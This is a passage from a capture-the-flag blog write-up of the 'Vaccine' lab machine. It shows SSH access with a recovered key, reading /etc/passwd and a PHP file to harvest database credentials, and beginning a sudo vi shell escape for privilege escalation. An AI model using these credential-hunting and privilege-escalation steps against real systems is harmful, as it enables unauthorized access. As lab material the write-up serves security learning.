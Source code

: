 I'm copying the key to a file on my local machine, `chmod 600` it and converting with `ssh-keygen -f vaccine.id_rsa -p` using no password I can connect to SSH.

> Rember to leave a empty line at the end of the key file, otherwise you will get the "invalid format" error.

```txt
$ ssh -i vaccine.id_rsa postgres@$IP

postgres@vaccine:~$ id
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
```

[Back to top](#contents) ⤴

## Directory traversing

Let's find what other users with shell are on the server.

```txt
postgres@vaccine:~$ cat /etc/passwd | grep -v nologin
```

> `-v` to invert mach - lines that do not match `nologin`, you should also filter out `/bin/false` strings

![1081383767677.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880029804/Tr5pXb6VZ.png align="left")

Maybe it can come in handy later.

When you have the access to the server when PHP files are served, good practice is to go through them because often you can find credentials there, ex. for databases. This website was serving a `dashboard.php` file and default website hosting folder is `/var/www/html` (Apache) so let's see.

```txt
postgres@vaccine:~$ cat /var/www/html/dashboard.php
```

![3006043138502.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880038827/JsU1s4aW9.png align="left")

New credentials:

`$ echo 'postgres|P@s5w0rd!' | tee -a ../.credentials`

[Back to top](#contents) ⤴

# Privilege Escalation

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring on the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.

![3899212738531.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880051716/nUGWx38aS.png align="left")

In `vi` you can run system commands using `:!` command... so let's exploit that.

```txt
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
